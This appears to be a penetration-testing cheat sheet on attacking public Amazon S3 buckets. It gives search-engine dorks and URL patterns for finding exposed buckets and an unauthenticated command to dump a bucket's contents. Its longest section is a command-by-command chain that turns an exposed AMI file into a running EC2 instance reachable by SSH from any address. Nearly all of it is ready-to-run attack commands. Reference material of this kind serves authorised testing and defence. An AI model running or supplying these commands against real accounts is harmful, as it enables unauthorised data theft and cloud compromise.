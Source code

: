 # Public S3 Bucket Exploits

## Enumeration

### Google Dorks

Generic search. Chain these search parameters with target specific names or keywords to detect only the buckets within the test scope

```
site:http://s3.amazonaws.com intitle:index.of.bucket
site:.s3.amazonaws.com "<org name>"
site:http://amazonaws.com inurl:".s3.amazonaws.com/"
intitle:index.of.bucket
site:http://s3.amazonaws.com intitle:Bucket loading
site:*.amazonaws.com inurl:index.html
Bucket Date Modified
```

### Domain recon

DNS Query

```
nslookup <domain>    #try with top domain and subdomain
```

### Default names

```
http://s3.amazonaws.com/bucket/key (for a bucket created in the US East (N. Virginia) region)
https://s3.amazonaws.com/bucket/key
http://s3-region.amazonaws.com/bucket/key
https://s3-region.amazonaws.com/bucket/key
http://s3.region.amazonaws.com/bucket/key
https://s3.region.amazonaws.com/bucket/key
http://s3.dualstack.region.amazonaws.com/bucket/key (for requests using IPv4 or IPv6)
https://s3.dualstack.region.amazonaws.com/bucket/key
http://bucket.s3.amazonaws.com/key
http://bucket.s3-region.amazonaws.com/key
http://bucket.s3.region.amazonaws.com/key
http://bucket.s3.dualstack.region.amazonaws.com/key (for requests using IPv4 or IPv6)
http://bucket.s3-website.region.amazonaws.com/key (if static website hosting is enabled on the bucket)
http://bucket.s3-accelerate.amazonaws.com/key (where the filetransfer exits Amazon's network at the last possible moment so as to give the fastest possible transfer speed and lowest latency)
http://bucket.s3-accelerate.dualstack.amazonaws.com/key
http://bucket/key (where bucket is a DNS CNAME record pointing to bucket.s3.amazonaws.com)
https://access_point_name-account ID.s3-accesspoint.region.amazonaws.com (for requests via an access point granting restricted access to a bucket)
```

Other typical name conventions

```
assets.<domain>.com.s3.amazonaws.com/
<domain>-<prod|uat|test|dev|public>.s3.amazonaws.com/
```

## Pivoting and Exploits

### Dump Bucket

```
aws s3 sync s3://<bucket> . --no-sign-request    #all
aws s3 sync s3://<bucket>/<path> . --no-sign-request    #all from specified path
```

### AMI file to EC2 compromise

Restore the EC2 instance using the exposed AMI file. You will receive a JSON response with an `ImageId` key and value. Store the value because it will be needed to start the instance.

```
aws ec2 create-restore-image-task --object-key <AMI id> --bucket <bucket> --name <arbitrary name>
```

Create a new SSH key pair

```
aws ec2 create-key-pair --key-name <arbitrary name> --query "KeyMaterial" --output text > <path>.pem
```

Get information about subnets and security groups

```
aws ec2 describe-subnets
aws ec2 describe-security-groups
```

If the subnet does not contain a security rule that allows SSH access run the following commands

```
aws ec2 create-security-group --group-name <name> --description "<descr>" --vpc-id <subnet id>
aws ec2 authorize-security-group-ingress --group-id <security group id> --protocol tcp --port 22 --cidr 0.0.0.0/0
```

Create a new EC2 instance with SSH access. Add the generated key to the new instance. If the operation is successful you will receive a JSON response with the information related to the new EC2 instance. Store the `InstanceId` value as reference to the new instance.

```
aws ec2 run-instances --image-id <restored image ID> --instance-type t3a.micro --key-name <generated key name> --subnet-id <subnet id> --security-group-id <security group id>
```

Get the public ip address of the instance

```
aws ec2 describe-instances --instance-ids <instance id> --query 'Reservations[*].Instances[*].PublicIpAddress' --output text
```

Connect to the instance via SSH

```
ssh -i "<key file>.pem" root@<EC2 ip address>
```
